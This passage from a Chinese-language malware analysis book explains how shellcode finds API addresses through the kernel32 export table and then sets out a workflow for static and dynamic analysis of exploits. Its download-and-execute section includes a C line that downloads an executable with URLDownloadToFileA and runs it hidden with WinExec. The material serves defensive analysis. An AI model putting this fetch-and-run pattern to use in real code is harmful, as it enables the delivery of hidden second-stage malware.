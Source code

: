 图 8.7 – 导出表解析器（winSRDF 项目）

为了让 shellcode 获取其所需 API 的地址，它应该在 `AddressOfNames` 中搜索所需 API 的名称，然后取出其索引，并在 `AddressOfNameOrdinals` 中搜索该索引，以找到在 `AddressOfFunctions` 中该 API 对应的索引。通过这种方式，它将能够获取该 API 的相对地址。shellcode 将这些地址与 `kernel32.dll` 的基地址相加，从而得到该 API 的完整地址。在大多数情况下，shellcode 通常不将 API 名称与它需要硬编码的字符串进行匹配，而是使用其哈希值（更多信息请参见 *第六章*，*绕过反向工程技术*）。

### 下载并执行的 shellcode

该 shellcode 使用了位于 `urlmon.dll` 中的一个 API，名为 `URLDownloadToFileA`。顾名思义，它从给定的 URL 下载文件并将其保存在硬盘中，当它提供了所需的路径时。此 API 的定义如下：

```
URLDownloadToFile(LPUNKNOWN pCaller, LPCTSTR szURL, LPCTSTR szFileName, _Reserved_ DWORD dwReserved, LPBINDSTATUSCALLBACK lpfnCB);
```

只需要 `szURL` 和 `szFilename`。其余的参数通常设置为 null。文件下载完成后，shellcode 会使用 `CreateProcessA`、`WinExec` 或 `ShellExecute` 执行该文件。对应的 C 代码可能如下所示：

```
URLDownloadToFileA(0,"https://localhost:4444/calc.exe","calc.exe",0,0); WinExec("calc.exe",SW_HIDE);
```

正如你所看到的，payload 非常简单，却非常有效地执行了攻击的第二阶段，这可能是一个后门，用于维持持久性，并与攻击者通信，窃取有价值的信息。

## 漏洞的静态与动态分析

现在我们已经了解了漏洞的样子以及它们的工作原理，接下来总结一些分析漏洞时的实用技巧和窍门。

### 分析工作流程

首先，你需要仔细收集任何先前的知识：漏洞是在哪种环境中发现的，是否已经知道了被攻击的软件及其版本，以及漏洞是否已经成功触发。所有这些信息将帮助你正确模拟测试环境，并成功重现预期的行为，这对于动态分析非常有帮助。

其次，确认攻击载荷如何与目标应用程序交互也很重要。通常，攻击载荷通过预期的输入通道传递（无论是监听的套接字、Web 表单或 URI，还是可能是格式不正确的文档、配置文件或 JavaScript 脚本），但也可能有其他被忽视的选项（例如，环境变量和依赖模块）。此时，下一步是使用这些信息成功重现攻击过程，并识别可以确认攻击的指示器。例如，目标应用程序可能会以某种特定方式崩溃，或执行特定的操作，可以通过适当的系统监控工具看到（例如，监控文件、注册表或网络操作或访问的 API）。如果涉及 Shellcode，其分析可能会提供有关预期攻击后行为的有价值信息。

在此之后，你需要识别目标漏洞。MITRE 公司通过为所有公开已知的漏洞分配相应的**常见漏洞和暴露**（**CVE**）标识符，来维护一个漏洞列表，便于参考（例如，CVE-2018-9206）。有时，可能已经通过杀毒软件检测或公开发布知道该漏洞，但无论如何，最好进行确认。

首先检查独特的字符串，因为它们可能会给你提供关于目标软件交互部分的线索。与大多数其他类型的恶意软件不同，静态分析在这种情况下可能不够。由于攻击载荷与目标软件密切合作，因此需要在其上下文中进行分析，这在许多情况下需要动态分析。

在这里，你需要使用自己偏好的调试器拦截攻击载荷的交付时刻，但此时载荷尚未被处理。之后，可以通过多种方式继续分析。一种方法是仔细检查负责处理该载荷的高层函数（无需逐个进入每个函数），并监视触发时刻。一旦触发，就有可能缩小搜索范围，集中精力分析已识别函数的子函数。然后，工程师可以重复此过程，直到找到漏洞为止。

另一种方法是先在攻击载荷中搜索可疑条目（如损坏的字段、具有高熵的大二进制块、包含十六进制符号的长行等），并监视目标软件如何处理它们。如果涉及到 Shellcode，可以在其开头用断点或无限循环指令修补（分别为`(\xCC`和`\xEB\xFE`），然后执行重现攻击的步骤，等待插入的指令执行，并检查堆栈跟踪，以查看哪些函数被调用以达到这一点。

总体而言，通常建议在虚拟化环境或仿真环境中进行动态分析，因为在漏洞利用的情况下，发生错误并失去执行控制的可能性更大。因此，能够恢复先前的调试和环境状态是非常方便的。

这些技术是通用的，可以应用于几乎所有类型的漏洞利用。无论工程师是否需要分析浏览器漏洞（通常是用 JavaScript 编写的）或本地权限提升代码，区别主要在于测试环境的设置。

### Shellcode 分析

